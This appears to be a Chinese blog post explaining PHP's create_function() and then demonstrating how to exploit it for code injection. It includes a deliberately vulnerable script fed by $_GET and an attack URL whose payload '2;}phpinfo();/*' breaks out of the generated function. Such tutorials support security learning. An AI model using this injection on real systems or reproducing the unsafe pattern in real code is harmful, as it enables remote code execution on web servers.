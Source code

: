 ```yaml
---
title: create_function
layout: post
category: web
author: 夏泽民
---
```

<!-- more -->
第一部分：介绍php函数 create_function()：

string create_function    ( string $args   , string $code   )

string $args 变量部分

string $code 方法代码部分

举例：
create_function('$fname','echo $fname."Zhang"')
类似于：
function fT($fname) {
  echo $fname."Zhang";
}

举一个官方提供的例子：
<?php
$newfunc = create_function('$a,$b', 'return "ln($a) + ln($b) = " . log($a * $b);');
echo "New anonymous function: $newfunc";
echo $newfunc(2, M_E) . "
";
// outputs
// New anonymous function: lambda_1
// ln(2) + ln(2.718281828459) = 1.6931471805599
?>
第二部分：如何利用create_function(）代码注入

测试环境版本：

apache +php 5.2、apache +php 5.3

有问题的代码：
<?php
//02-8.php?id=2;}phpinfo();/*
$id=$_GET['id'];
$str2='echo  '.$a.'test'.$id.";";
echo $str2;
echo "<br/>";
echo "==============================";
echo "<br/>";
$f1 = create_function('$a',$str2);
echo "<br/>";
echo "==============================";
?>
利用方法：

http://localhost/libtest/02-8.php?id=2;}phpinfo();/*


实现原理：

由于id=2;}phpinfo();/*

执行函数为：
源代码：
function fT($a) {
  echo "test".$a;
}
 
注入后代码：
function fT($a) {
  echo "test";}
  phpinfo();/*;//此处为注入代码。
}


测试效果：
实现在后台运行前端提交的php代码phpinfo();